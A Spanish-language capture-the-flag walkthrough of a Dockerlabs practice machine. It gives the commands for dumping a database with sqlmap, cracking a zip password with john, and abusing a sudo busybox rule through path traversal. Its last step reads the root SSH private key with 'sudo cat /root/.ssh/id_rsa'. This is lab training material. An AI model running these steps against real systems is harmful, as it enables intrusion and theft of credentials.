



Maquina nivel medio de [Dockerlabs](https://dockerlabs.es)

Autor: [d1se0](https://github.com/D1se0)

Dificultad: Medio



# INTRUSION

Comenzamos entrando por el navegador a la ip `172.17.0.2`

#### PUERTO 80:



Al parecer es una web para practicar hacking, de todo lo que dice, lo interesante es "Desafíos de SQL Injection", ya que hay un panel de login.

Para la inyeccion sql podemos usar sqlmap guardandonos la peticion al iniciar sesion. Para hacerlo capturamos y guardando la peticion con burpsuite, para guardarla damos click derecho en la peticion y tocamos donde dice `Copy to file` y lo guardamos con el nombre que queramos.

Luego ejecutamos el siguiente comando:

```css
sqlmap -r request --dump -batch --level 5 -risk 3
```

Sqlmap nos encuentra varios usuarios y contraseñas, pero lo unico que nos interesa es la password `no_mirar_en_este_directorio`, por lo que entramos del navegador y vemos un zip el cual nos descargamos.

Al intentar descomprimirlo nos pide una contraseña, entonces tendremos que sacar el hash con `zip2john` y luego intentar crackear la contraseña usando `john`. Luego de capturar el hash ejecutaremos el siguiente comando para crackear la contraseña:

```css
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

```ruby
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
computer         (secret.zip/confidencial.txt)     
1g 0:00:00:00 DONE (2024-08-18 20:10) 33.33g/s 136533p/s 136533c/s 136533C/s 123456..oooooo
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Ahora si teniendo la contraseña vamos a descomprimir el zip y nos deja un archivo que se llama `confidencial.txt`, lo leemos y vemos lo siguiente:

```css

You have to change your password ralf, I have told you many times, log into your account and I will change your password.

Your new credentials are:

ralf:-------------

```

Asi que teniendo el usuario y contraseña nos conectamos mediante ssh.

# ESCALADA DE PRIVILEGIOS

## RALF

Siendo el usuario ralf vemos que podemos ejecutar con `sudo -l` y vemos lo siguiente:

```ruby
ralf@b09cee7bd1c1:~$ sudo -l
Matching Defaults entries for ralf on b09cee7bd1c1:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User ralf may run the following commands on b09cee7bd1c1:
    (capa : capa) NOPASSWD: /usr/local/bin/busybox /nothing/*
ralf@b09cee7bd1c1:~$ 

```

Para poder escalar privilegios me fijé en [GTFOBins](https://gtfobins.github.io/) pero nuestro caso es distinto, entonces tendremos que hacer lo siguiente:

```css
sudo -u capa /usr/local/bin/busybox /nothing/../../../../bin/ls /home/capa
```

esto nos muestra que hay un archivo llamado `passwd.txt` por lo que ahora lo leeremos ejecutando:

```css
sudo -u capa /usr/local/bin/busybox /nothing/../../../../bin/cat /home/capa/passwd.txt
```

Habiendo hecho esto ya tendremos la contraseña del usuario capa.

## CAPA

Siendo capa ejecutamos `sudo -l` y vemos que podemos ejecutar como root el binario cat. Entonces luego de fijarme nuevamente en [GTFOBins](https://gtfobins.github.io/), veo que puedo leer archivos del sistema, entonces haremos lo siguiente:

```css
LFILE=/root/.ssh/id_rsa
```

y lo leemos con:

```css
sudo cat "$LFILE"
```

Esto nos dará la clave privada del ssh del usuario root, ahora nos la guardaremos en nuestra maquina local como `id_rsa` y le damos permisos con `chmod 600`, luego ponemos `ssh -i id_rsa root@172.17.0.2` y listo, somos root.



Esta maquina tiene flags. Chau....

